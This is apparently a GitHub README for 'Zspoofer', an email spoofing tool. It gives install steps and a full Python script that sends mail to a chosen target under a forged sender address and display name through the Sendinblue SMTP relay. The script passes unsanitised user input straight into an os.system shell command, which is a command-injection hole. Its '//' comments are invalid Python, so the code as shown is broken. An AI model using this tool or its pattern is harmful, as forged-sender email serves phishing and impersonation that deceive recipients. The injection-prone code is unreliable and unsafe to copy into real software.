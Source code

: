 # Zspoofer
Email spoofer by zereza

## Installation:
```bash
sudo apt install sendemail
git clone https://github.com/0x9B0x7A/zspoofer/
cd zspoofer
pip3 install -r requirements.txt
```
## Usage:
You must have an account in [sendinblue.com](https://www.sendinblue.com).

In order to use the script you will need to modify the script and put your [sendinblue](https://www.sendinblue.co) credentials here:
```python
#!/usr/bin/env python3
import os
def main():
    print(''' _________  ____   ___   ___  _____ 
|__  / ___||  _ \ / _ \ / _ \|  ___|
  / /\___ \| |_) | | | | | | | |_   
 / /_ ___) |  __/| |_| | |_| |  _|  
/____|____/|_|    \___/ \___/|_|    ''')
    print("\n\nTool developed by zereza\n\n")
    username = "USERNAME FROM SENDINBLUE HERE" // <----------------------- HERE
    password = "PASSWORD FROM SENDINBLUE HERE" // <----------------------- AND HERE
    target = input("The target's email  ---->    ")
    name = input("\n\nThe target's name [OPTIONAL]  ---->   ")
    sender = input("\n\nThe sender of the email   ---->   ")
    subject = input("\n\nThe email subject  ---->   ")
    message = input("\n\nThe email message  ---->   ")
    
    if name == '':
        os.system('sendemail -xu '+username+' -xp '+password+' -f '+sender+' -t '+target+' -u '+subject+' -m '+message+' -s "smtp-relay.sendinblue.com:587"')
    else:
        os.system('sendemail -xu '+username+' -xp '+password+' -f '+sender+' -t '+target+' -u '+subject+' -m '+message+' -s "smtp-relay.sendinblue.com:587" -o message-header="From '+name+'<'+sender+'>"')
    
if __name__ == '__main__':
    main()
```
